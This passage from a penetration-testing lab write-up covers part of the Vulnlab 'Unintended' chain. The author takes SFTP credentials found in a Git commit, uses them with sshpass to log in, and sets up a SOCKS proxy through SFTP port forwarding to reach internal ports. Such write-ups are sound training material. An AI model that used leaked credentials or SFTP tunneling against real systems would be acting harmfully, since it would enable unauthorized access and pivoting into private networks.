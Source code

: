 In one of the commits we find potentially real SFTP credentials replaced by generic ones:

<http://code.unintended.vl/juan/DevOps/commit/75f1f713696016f7713e33f836b05ce14784fc22>

![](/assets/vulnlab/chains/unintended/img/8.png)

It doesn't allow SSH login:

```shell-session
└─$ sshpass -p <SFTP_PASS> ssh ftp_user@$T2
This service allows sftp connections only.
Connection to 10.10.143.230 closed.
```

There's no files we can read over SFTP:

```shell-session
└─$ sshpass -p <SFTP_PASS> sftp ftp_user@$T2
Warning: Permanently added '10.10.228.198' (ED25519) to the list of known hosts.
Connected to 10.10.228.198.
sftp> ls -lah
drwxr-xr-x    ? 0        0            4.0K Feb 24 20:47 .
drwxr-xr-x    ? 0        0            4.0K Feb 24 20:47 ..
drwx------    ? 1001     1001         4.0K Feb 24 20:47 ftp_user
sftp> cd ftp_user/
sftp> ls -lah
drwx------    ? 1001     1001         4.0K Feb 24 20:47 .
drwxr-xr-x    ? 0        0            4.0K Feb 24 20:47 ..
sftp> exit
```

According to [this section on HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ssh#sftp-tunneling) the SFTP service may be misconfigured to allow port forwarding and tunneling even if it disallows SSH login, allowing us to probe and reach internal ports and networks.

Let's set up a SOCKS proxy:

```shell-session
└─$ sshpass -p <SFTP_PASS> ssh -D 9050 -N ftp_user@$T2
```
